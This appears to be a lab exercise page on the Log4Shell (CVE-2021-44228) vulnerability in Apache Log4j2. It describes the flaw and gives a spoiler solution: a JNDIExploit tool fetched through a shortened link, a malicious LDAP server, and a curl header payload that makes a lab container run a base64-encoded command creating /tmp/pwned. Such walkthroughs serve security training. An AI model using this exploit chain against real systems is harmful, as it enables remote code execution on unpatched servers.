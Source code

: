 <h2>Description</h2>
<p>Also known as CVE-2021-44228, log4shell is a zero-day software vulnerability in Apache Log4j2, a popular Java library used for logging purposes in applications.</p>
<p>This vulnerability enables a remote attacker to take control of a device on the internet if the device is running certain unpatched versions of Log4j2.</p>
<p>In December 2021, Apache had to release up to 4 corrective patches to fully close the breach. It is believed that malicious actors likely knew about the vulnerability and exploited it before experts did, hence why it is considered zero-day.</p>

<h2>Goal</h2>
<p>Find a way to remotely execute commands within the system (container).</p>

<h2>Solution</h2>
<details>
    <summary>Spoilers! (click to expand)</summary>
    <p>1. Download the JNDIExploit from that link -> https://tinyurl.com/yp2n78js then extract it in a dedicated folder.</p>
    <p>2. Launch a malicious LDAP server using the command \n\"java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888\"</p>
    <p>3. Trigger the exploit using the command: curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'</p>
    <p>4. Go to Containers, open the main container shell and check for the presence of the pwned file by doing ls /tmp</p>
</details>
